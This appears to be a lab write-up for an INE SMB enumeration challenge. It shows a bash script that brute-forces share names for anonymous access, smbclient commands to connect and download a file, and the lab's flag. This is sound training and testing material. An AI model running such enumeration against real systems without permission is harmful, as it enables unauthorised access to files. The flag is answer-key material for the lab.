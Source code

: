 # SMB Enumeration: Anonymous Access

## Challenge Title
SMB Share with Anonymous Access

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Description

The goal of this challenge is to identify an SMB share that allows **anonymous access**, enumerate its contents, and retrieve a hidden flag.

---

## Tools Used

- `smbclient`: to query SMB shares
- Wordlist `shares.txt`
- `bash`: to script brute-force enumeration of share names
- `nano` / `chmod`: to edit and execute the script

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Initial Enumeration with `smbclient`

```bash
smbclient -L //target.ine.local -N
```
![Step 1 - Initial SMB Error](./1.png)

### 🔹 Step 2: Create Enumeration Script `shares.sh`

```bash
nano shares.sh
```
Paste the following script:
```bash
#!/bin/bash

# Define the target and wordlist location
TARGET="target.ine.local"
WORDLIST="/root/Desktop/wordlists/shares.txt"

# Check if the wordlist file exists
if [ ! -f "$WORDLIST" ]; then
    echo "Wordlist not found: $WORDLIST"
    exit 1
fi

# Loop through each share in the wordlist
while read -r SHARE; do
    echo "Testing share: $SHARE"
    smbclient //$TARGET/$SHARE -N -c "ls" &>/dev/null

    if [ $? -eq 0 ]; then
        echo "[+] Anonymous access allowed for: $SHARE"
    else
        echo "[-] Access denied for: $SHARE"
    fi
done < "$WORDLIST"
```
Make it executable:
```bash
chmod +x shares.sh
```
![Step 2 - Created Script](./2.png)

### 🔹 Step 3: Run the Script
```bash
./shares.sh
```
![Step 3 - Brute Forcing Shares](./3.png)

Output:
You’ll see lots of denied messages until:
```css
[+] Anonymous access allowed for: pubfiles
```
![Step 4 - Found Anonymous Access](./4.png)

That means pubfiles is accessible anonymously.

### 🔹 Step 4: Access the Share
```bash
smbclient //target.ine.local/pubfiles -N
```
List contents:
```bash
smb: \> ls
```
You’ll see something like:
flag1.txt

### 🔹 Step 5: Download the Flag
```bash
smb: \> get flag1.txt
```
Exit the session:
```bash
smb: \> exit
```
![Step 5 - Retrieved Flag](./5.png)

### 🔹 Step 6: View the Flag
```bash
cat flag1.txt
```
Final Output:
```bash
FLAG{56a55b23a464f5b8893fe22c6e3d611}
```
![Step 6 - Viewed Flag Content](./6.png)

## Conclusion
This lab highlights the importance of checking for misconfigured Samba shares that allow anonymous access. Attackers can exploit this to discover sensitive files like backup data, credentials, or flags.

## Files Included
- `shares.sh`: The script used to enumerate shares
- `shares.txt`: Wordlist of possible SMB share names
- Screenshots: 1.png → 6.png (steps of the challenge)
